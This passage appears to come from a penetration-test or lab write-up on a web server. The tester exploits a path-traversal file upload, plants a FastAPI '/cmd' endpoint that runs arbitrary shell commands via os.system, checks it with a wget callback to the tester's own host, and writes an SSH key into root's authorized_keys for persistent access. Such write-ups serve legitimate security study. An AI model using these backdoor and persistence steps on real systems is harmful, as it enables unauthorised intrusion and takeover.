 ![LFI_test](https://i.imgur.com/zjNkDyP.png)

```
┌──(kali㉿kali)-[~]
└─$ curl  http://10.10.11.123/file_management/?file=../../../../tmp/test.txt 
This is a test!
```

As the test payload was successful the tester used the same method to uploaded an edited version of the "main.py" file. The edit added an additional function to the end of the code, which is shown below:

```
@app.get("/cmd")
async def command(cmd):
	x = os.system(cmd)
	return x
```

This addition adds a command execution feature to the server allowing commands to be executed on the server.
![Main_edit](https://i.imgur.com/Dt5jLk8.png)

As the "cmd" function doesn't give detailed output the tester used the "wget" command to make a request to the testers system to test the function. The tester set a python HTTP server to "catch" the "wget" request. 

```
┌──(kali㉿kali)-[~]
└─$ curl  http://10.10.11.123/cmd?cmd=wget%20http://10.10.14.8:8081/test.txt 
2048                     
```

```
└─$ python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.123 - - [26/Sep/2024 12:32:32] code 404, message File not found
10.10.11.123 - - [26/Sep/2024 12:32:32] "GET /test.txt HTTP/1.1" 404 -
```

Now that the tester had limited command execution on the system the tester moved to get interactive access. This was done by uploading the tester's "public" SSH key. This process involved generating a private/public key pair using the linux "ssh-keygen" command. Once that was done the tester wrote the "PUBLIC" key to the targets "authorized_keys" file in the ".ssh" folder.

```
┌──(kali㉿kali)-[~]
└─$ curl -v "http://10.10.11.123/cmd?cmd=echo%20ssh-ed25519%20AAAAC3NzaC1lZDI1NTE5AAAAIBazeqhvhd3%2bQm29pAFW/QwKZfLkM7LCPj0xqrBkPQJ3%20kali@kali%20>%20/root/.ssh/authorized_keys"
*   Trying 10.10.11.123:80...
* Connected to 10.10.11.123 (10.10.11.123) port 80
> GET /cmd?cmd=echo%20ssh-ed25519%20AAAAC3NzaC1lZDI1NTE5AAAAIBazeqhvhd3%2bQm29pAFW/QwKZfLkM7LCPj0xqrBkPQJ3%20kali@kali%20>%20/root/.ssh/authorized_keys HTTP/1.1
> Host: 10.10.11.123
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< date: Thu, 26 Sep 2024 16:53:10 GMT
< server: uvicorn
< content-length: 1
< content-type: application/json
< 
* Connection #0 to host 10.10.11.123 left intact
0                                                        
```
